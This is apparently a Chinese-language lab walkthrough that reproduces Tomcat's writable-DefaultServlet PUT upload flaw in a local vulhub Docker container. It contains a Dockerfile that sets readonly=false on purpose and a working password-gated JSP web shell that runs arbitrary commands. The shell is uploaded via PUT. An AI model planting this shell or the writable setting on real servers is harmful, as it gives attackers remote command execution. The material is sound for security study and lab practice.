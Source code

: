 ### 1、制作tomcat 8.5.19景象:
Dockerfile
```dockerfile
FROM vulhub/tomcat:8.5.19

LABEL maintainer="phithon <root@leavesongs.com>"

RUN cd /usr/local/tomcat/conf \
    && LINE=$(nl -ba web.xml | grep '<load-on-startup>1' | awk '{print $1}') \
    && ADDON="<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>" \
    && sed -i "$LINE i $ADDON" web.xml
```

### 2、用启动tomcat 8.5.19:
docker-compose.yaml
```yaml
version: '3'
services:
 tomcat:
   build: .
   ports:
    - "8081:8080"
```
### 3、在主机上访问8081
![image](https://github.com/498946975/Security/blob/master/images/image-20211226153918974.png)

### 4、编写一个jsp木马:

Trojan_Horse.jsp
```jsp
<%
    if("liuxiang".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

### 5、使用postman上传木马，上传名称为1.jsp
![image](https://github.com/498946975/Security/blob/master/images/image-20211226155103374.png)

### 6、利用上传的木马，执行shell命令
![image](https://github.com/498946975/Security/blob/master/images/image-20211226155557997.png)

7、漏洞原理
漏洞本质Tomcat配置了可写(readonly=false)，导致我们可以往服务器写文件:(使用PUT方式)
```xml
<servlet>
	<servlet-name>default</servlet-name> 
  <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class> 
  <init-param>
		<param-name>debug</param-name>
		<param-value>0</param-value> 
  </init-param>
	<init-param> 
    <param-name>listings</param-name> 
    <param-value>false</param-value>
	</init-param> 
  <init-param>
		<param-name>readonly</param-name>
		<param-value>false</param-value> 
  </init-param>
	<load-on-startup>1</load-on-startup> 
</servlet>
```

